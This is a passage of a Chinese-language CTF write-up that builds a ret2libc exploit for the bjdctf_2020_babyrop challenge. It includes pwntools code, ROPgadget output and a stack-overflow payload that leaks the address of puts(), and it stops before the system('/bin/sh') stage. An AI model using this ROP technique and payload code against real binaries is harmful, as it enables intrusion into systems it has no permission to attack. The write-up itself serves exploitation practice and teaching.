 看出来了 `buf` 只有 0x20 个大小，但是能接受 0x64 的数据，这里就会栈溢出

那么接下来就开始 Ret2Libc

## 泄露 `puts()` 函数真实地址

先把能写出来的代码写上，都有用

```python
from pwn import *
from LibcSearcher import *

io = remote("node4.buuoj.cn", 28549)
elf = ELF("./bjdctf_2020_babyrop")

main_addr = elf.symbols["main"] # 便于获取完 puts() 真实地址后再来一次
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
```

然后我们需要 `pop rdi; ret` 的指令，于是我们用 ROPgadget 来找，地址是 `0x400733`

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ROPgadget --binary  bjdctf_2020_babyrop --only "pop|ret"
Gadgets information
============================================================
0x000000000040072c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040072e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400730 : pop r14 ; pop r15 ; ret
0x0000000000400732 : pop r15 ; ret
0x000000000040072b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040072f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400590 : pop rbp ; ret
0x0000000000400733 : pop rdi ; ret
0x0000000000400731 : pop rsi ; pop r15 ; ret
0x000000000040072d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004c9 : ret
```

随后构造第一个 Payload

```python
pop_rdi_ret = 0x400733

payload1 = b"A"*(0x20+0x8) + pack(pop_rdi_ret, 64) + pack(puts_got, 64) + pack(puts_plt, 64) + pack(main_addr, 64)
io.sendlineafter(b"Pull up your sword and tell me u story!\n", payload1)
puts_addr = unpack(io.recvline().strip().ljust(8, b"\0"), 64)
```

此时的 `puts_addr` 就是此时此刻下的 `puts()` 函数的真实地址了

随后我们用 LibcSearcher 来求出所需函数和参数的真实地址（即 `system()` 和 `/bin/sh`）

## 使用 Libc 知一求多
